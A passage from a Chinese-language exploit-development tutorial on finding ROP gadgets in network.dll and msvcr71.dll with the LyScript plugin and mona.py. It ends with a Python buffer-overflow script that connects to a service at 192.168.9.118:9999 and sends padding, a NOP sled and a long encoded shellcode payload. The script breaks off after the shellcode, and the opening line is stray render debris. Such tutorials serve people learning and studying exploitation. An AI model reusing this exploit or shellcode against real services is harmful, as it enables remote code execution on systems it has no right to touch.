         dbg.close()
    

运行上述插件则可扫描出当前`network.dll`模块内所有匹配的内存地址，并输出如下图所示的扫描结果；

![](https://img2023.cnblogs.com/blog/1379525/202307/1379525-20230712085100645-2078680932.png)

接着再扫描一下`msvcr71.dll`模块内的ROP指令片段，并输出如下图所示的扫描结果；

![](https://img2023.cnblogs.com/blog/1379525/202307/1379525-20230712085109309-827323501.png)

需要注意的是，单纯在这两个模块内搜索是无法构建出这段特殊指令集的，读者可自行更换模块对模块批量寻找，此处只是为了演示`LyScript`插件的使用细节；

笔者已经将`ROP`链构建好了，当然手动构建并不是最好的选择，除了使用`LyScript`插件搜外，读者也可以使用`mona.py`插件自动化完成这个过程，`mona.py`插件是专门用户构建有效载荷的工具，其构建语句是`!mona.py rop -m *.dll -cp nonull`这里我就不在罗嗦了，直接给出构建好的ROP指令片段吧；

    # coding:utf-8
    
    import socket
    import struct
    
    host = "192.168.9.118"
    port = 9999
    sock = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    sock.connect((host,port))
    command = b"send |/.:/"      # 发送数据包头
    buffer = b'A' * 2002         # 实际缓冲区填充物
    nops = b'\x90' * 50          # nop雪橇的位置
    
    buf =  b""
    buf += b"\xda\xd6\xb8\x8e\x0b\x73\x3d\xd9\x74\x24\xf4\x5f"
    buf += b"\x2b\xc9\xb1\x59\x31\x47\x19\x83\xc7\x04\x03\x47"
    buf += b"\x15\x6c\xfe\x8f\xd5\xff\x01\x70\x26\x9f\x88\x95"
    buf += b"\x17\x8d\xef\xde\x0a\x01\x7b\xb2\xa6\xea\x29\x27"
    buf += b"\x86\x13\xc2\xf0\xa2\xcd\x56\x8c\x1a\x20\xa9\xdd"
    buf += b"\x67\x23\x55\x1c\xb4\x83\x64\xef\xc9\xc2\xa1\xb9"
    buf += b"\xa4\x2b\x7f\x6d\xcc\xe1\x90\x1a\x90\x39\x90\xcc"
    buf += b"\x9e\x01\xea\x69\x60\xf5\x46\x73\xb1\x7e\x1e\x6b"
    buf += b"\xba\xd8\xbf\x8a\x6f\x88\x3a\x45\xfb\x14\x74\xa9"
    buf += b"\x4d\xef\x42\xde\x4f\x39\x9b\x20\xe3\x04\x13\xad"
    buf += b"\xfd\x41\x94\x4e\x88\xb9\xe6\xf3\x8b\x7a\x94\x2f"
    buf += b"\x19\x9c\x3e\xbb\xb9\x78\xbe\x68\x5f\x0b\xcc\xc5"
    buf += b"\x2b\x53\xd1\xd8\xf8\xe8\xed\x51\xff\x3e\x64\x21"
    buf += b"\x24\x9a\x2c\xf1\x45\xbb\x88\x54\x79\xdb\x75\x08"
    buf += b"\xdf\x90\x94\x5f\x5f\x59\x67\x60\x3d\xcd\xab\xad"
    buf += b"\xbe\x0d\xa4\xa6\xcd\x3f\x6b\x1d\x5a\x73\xe4\xbb"
    buf += b"\x9d\x02\xe2\x3b\x71\xac\x63\xc2\x72\xcc\xaa\x01"
    buf += b"\x26\x9c\xc4\xa0\x47\x77\x15\x4c\x92\xed\x1f\xda"
    buf += b"\xdd\x59\x16\x9d\xb6\x9b\x29\x83\xfe\x12\xcf\x93"
    buf += b"\xae\x74\x40\x54\x1f\x34\x30\x3c\x75\xbb\x6f\x5c"
    buf += b"\x76\x16\x18\xf7\x99\xce\x70\x60\x03\x4b\x0a\x11"
    buf += b"\xcc\x46\x76\x11\x46\x62\x86\xdc\xaf\x07\x94\x09"
    buf += b"\xc8\xe7\x64\xca\x7d\xe7\x0e\xce\xd7\xb0\xa6\xcc"
    buf += b"\x0e\xf6\x68\x2e\x65\x85\x6f\xd0\xf8\xbf\x04\xe7"
    buf += b"\x6e\xff\x72\x08\x7f\xff\x82\x5e\x15\xff\xea\x06"
    buf += b"\x4d\xac\x0f\x49\x58\xc1\x83\xdc\x63\xb3\x70\x76"
    buf += b"\x0c\x39\xae\xb0\x93\xc2\x85\xc2\xd4\x3c\x5b\xed"
    buf += b"\x7c\x54\xa3\xad\x7c\xa4\xc9\x2d\x2d\xcc\x06\x01"
    buf += b"\xc2\x3c\xe6\x88\x8b\x54\x6d\x5d\x79\xc5\x72\x74"
    buf += b"\xdf\x5b\x72\x7b\xc4\x6c\x09\xf4\xfb\x8d\xee\x1c"
    buf += b"\x98\x8e\xee\x20\x9e\xb3\x38\x19\xd4\xf2\xf8\x1e"
    buf += b"\xe7\x41\x5c\x36\x62\xa9\xf2\x48\xa7"
    